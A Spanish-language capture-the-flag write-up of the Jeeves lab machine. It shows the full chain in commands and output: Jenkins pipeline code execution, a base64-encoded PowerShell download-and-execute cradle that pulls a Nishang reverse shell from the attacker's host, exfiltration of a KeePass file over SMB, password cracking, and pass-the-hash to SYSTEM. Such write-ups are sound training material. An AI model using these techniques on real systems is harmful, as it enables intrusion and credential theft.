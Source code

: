 ```yaml
---
title: 'CTF - Jeeves WriteUp'
date: '2022-02-12'
tags: ["CTF", "Windows", "PassTheHash", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: Escaneamos puertos con NMAP y ejecutamos un análisis más exhaustivo sobre los puertos abiertos Omit
---
```


Escaneamos puertos con NMAP y ejecutamos un análisis más exhaustivo sobre los puertos abiertos. Omitiré la información no relevante.


```
nmap -p80,135,445,50000 -vvv -sCV -n -Pn 10.10.10.63 -oG targeted
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-02-12T22:04:41
|_  start_date: 2022-02-12T21:50:58
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
Lo primero que observamos es que la firma de smb no es necesaria. A continuación, lo validamos con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
```
Estamos ante una máquina Win10 x64 y SMB no está firmado. Esto lo hace potencialmente vulnerable a un ataque de tipo PassTheHash. Continuamos investigando. Entrando en la web y aparece la siguiente imagen.

![](https://blog.ikerocio.com/content/images/2022/02/image-17.png)Cuando buscas algo, siempre sale la misma ventana de error que no es un error como tal, es un archivo png. No parece que se esté ejecutando nada.

Aplico Fuzzing contra el puerto 80 y el puerto 50000. En este segundo puerto, parece que encuentro una ruta disponible en */askjeeves*.


```
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://10.10.10.63:50000/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://10.10.10.63:50000/FUZZ
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================
000041607:   302        0 L      0 W        0 Ch        "askjeeves"
```
Accedo a la URL y encuentro un Jenkins de v2.87.

![](https://blog.ikerocio.com/content/images/2022/02/image-18.png)Encontramos una [vulnerabilidad](https://cxsecurity.com/issue/WLB-2019020120) con el pipeline de Jenkins para esa versión. Hacemos una prueba rápida colocando un comando en la ventana de configuración del pipeline.

![](https://blog.ikerocio.com/content/images/2022/02/image-19.png)*Es importante seleccionar el Sandbox de Groovy que es quien tiene la vulnerabilidad*.

Ponemos en escucha *tcpdump* y vemos si hay respuesta cuando ejecutamos el pipeline.

![](https://blog.ikerocio.com/content/images/2022/02/image-20.png)Se acontece la vulnerabilidad. Modificamos el script de arriba para que nos entable una reverse shell.

Para ello, vamos a enviar a la consola de Powershell un código codificado en base64. El código en cuestión es el siguiente.


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')
```
Esto descargará un script desde nuestro equipo y lo ejecutará en el entorno remoto. Dicho script contiene una reverse shell descargada del repositorio de [Nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) que modificaremos a nuestro gusto.

La forma de codificarlo a base64 pasa por cambiar el encoding a UTF-16LE si queremos tener en consideración a [Microsoft](https://docs.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_character_encoding?view=powershell-7.2). De lo contrario, probablemente no podrá ejecutar nuestro comando.


 En general, Windows PowerShell tiene configurada la codificación UNICODE [UTF-16LE](https://wikipedia.org/wiki/UTF-16) de forma predeterminada.

Para ello, ejecutamos el siguiente código.


```
❯ echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')"data
❯ cat data | iconv -t utf-16le | xxd
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
00000030: 6900 6500 6e00 7400 2900 2e00 6400 6f00  i.e.n.t.)...d.o.
00000040: 7700 6e00 6c00 6f00 6100 6400 5300 7400  w.n.l.o.a.d.S.t.
00000050: 7200 6900 6e00 6700 2800 2700 6800 7400  r.i.n.g.(.'.h.t.
00000060: 7400 7000 3a00 2f00 2f00 3100 3000 2e00  t.p.:././.1.0...
00000070: 3100 3000 2e00 3100 3400 2e00 3200 3100  1.0...1.4...2.1.
00000080: 2f00 5000 5300 2e00 7000 7300 3100 2700  /.P.S...p.s.1.'.
00000090: 2900 0a00                                )...
❯ cat data | iconv -t utf-16le | base64 -w0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA==powershell
```
Copiamos el código final en base64 y lo adjuntamos a nuestro exploit del pipeline de Jenkins.


```
node {
   powershell 'powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA=='
}
```
Ponemos un servidor en nuestro equipo que acepte la descarga del script y en otra ventana netcat en escucha en el puerto 443.

Ejecutamos el pipeline en Jenkins.

![](https://blog.ikerocio.com/content/images/2022/02/image-21.png)Recibimos la consola de nuestro lado.


```
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.63] 49685
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\test whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\test cat C:\Users\kohsuke\Desktop\user.txt    
e323xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la primera flag y continuamos con el escalado de privilegios.

En la carpeta documentos del usuario, descubrimos un archivo kdbx. Esta extensión pertenece a [KeePass](https://www.file-extension.info/es/format/kdbx).


```
PS C:\Users\kohsuke\Documentsls
CEH.kdbx
```
Para descargarnos el archivo a nuestro equipo, montamos un servidor samba.


```
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```
Y nos copiamos el archivo directamente en nuestro equipo.


```
PS C:\Users\kohsuke\Documentscopy CEH.kdbx \\10.10.14.21\smbFolder\CEH.kdbx
```
Primero obtenemos el hash de la contraseña con *keepass2john*, ejecutamos *[John The Ripper](https://www.openwall.com/john/)* con el diccionario [Rockyou](https://www.quora.com/How-many-passwords-are-in-rockyou-txt#:~:text=The%20rockyou.txt%20that%20comes,2020.2a%20contains%2014%2C442%2C063%20words.) que contiene más de 14 millones de las contraseñas más utilizadas y mostramos los resultados.


```
❯ keepass2john CEH.kdbx  hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
❯ john -show hash
CEH:mooxxxxx
```
Parece que los resultados han sido positivos. Usamos la contraseña para abrir el archivo *kdbx* en un cliente de KeePass como [KeePassXC](https://keepassxc.org/).

![](https://blog.ikerocio.com/content/images/2022/02/image-22.png)La entrada seleccionada en la imagen contiene una contraseña que parece ser un hash [NTLM](https://security.stackexchange.com/questions/161889/understanding-windows-local-password-hashes-ntlm) del usuario administrador. Validamos el hash con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63 -u "Administrator" -H "e0fbxxxxxxxxxxxxxxxxxxx"
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator e0fbxxxxxxxxxxxxxxxx (Pwn3d!)
```
**Como aparece la palabra (Pwn3d!), confirmamos que el hash es correcto.**

A continuación, ejecutamos *psexec.py* para entablar una shell.


```
❯ psexec.py WORKGROUP/administrator@10.10.10.63 -hashes :e0fbxxxxxxxxxxxxxxxxxxxxxx
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32 whoami
nt authority\system
```
Estamos dentro como usuario Administrator y buscamos la flag.

En el escritorio encontramos un archivo que nos dice que lo que buscamos está en algún otro sitio más profundo.


```
C:\Users\Administrator\Desktop type hm.txt
The flag is elsewhere.  Look deeper.
```
NTFS tiene la posibilidad de almacenar la información en distintos streams de datos. Se puede encontrar más información [aquí](https://www.deepinstinct.com/blog/the-abuse-of-alternate-data-stream-hasnt-disappeared). Para enumerar todos los archivos/streams de archivos se emplea el parámetro /r.

Después, invocamos el comando [more](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/more) de Powershell para ver el siguiente stream de información. 


```
C:\Users\Administrator\Desktop dir /r
 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM     .
11/08/2017 09:05 AM  ..
12/24/2017 02:51 AM 36 hm.txt
 34 hm.txt:root.txt:$DATA

C:\Users\Administrator\Desktop more  hm.txt:root.txt
afbcxxxxxxxxxxxxxx
```
